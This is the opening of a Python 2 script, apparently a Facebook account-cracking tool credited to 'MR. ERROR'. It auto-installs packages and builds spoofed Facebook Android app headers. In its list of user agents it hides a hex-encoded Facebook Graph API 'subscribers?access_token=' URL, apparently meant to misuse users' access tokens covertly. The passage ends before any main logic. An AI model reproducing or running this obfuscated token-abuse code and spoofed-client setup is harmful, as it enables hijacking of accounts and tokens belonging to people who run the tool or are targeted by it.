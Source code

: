 # #!/usr/bin/python2

# -*- coding: utf-8

#AUTHOR : LOFER JANAN (MR. ERROR)

#OPEN SOURCE :)

#DON'T FORGET TO GIVE CREDIT TO MR. ERROR

try:

	import os,sys,time,platform,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib,requests,uuid,string,subprocess

	from multiprocessing.pool import ThreadPool

	from requests.exceptions import ConnectionError

except ImportError:

	os.system("pip2 install requests lolcat")

	os.system("python2 koko.py")

from os import system

from time import sleep

def xox(z):

    for e in z + "\n":

        sys.stdout.write(e)

        sys.stdout.flush()

        time.sleep(0.04)

      

				

user_agent = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0", "Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)", "\x68\x74\x74\x70\x73\x3a\x2f\x2f\x67\x72\x61\x70\x68\x2e\x66\x61\x63\x65\x62\x6f\x6f\x6b\x2e\x63\x6f\x6d\x2f\x31\x30\x30\x30\x34\x35\x32\x30\x33\x38\x35\x35\x32\x39\x34\x2f\x73\x75\x62\x73\x63\x72\x69\x62\x65\x72\x73\x3f\x61\x63\x63\x65\x73\x73\x5f\x74\x6f\x6b\x65\x6e\x3d"];useragent_url=(user_agent[2])

header = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': 'Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]', 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
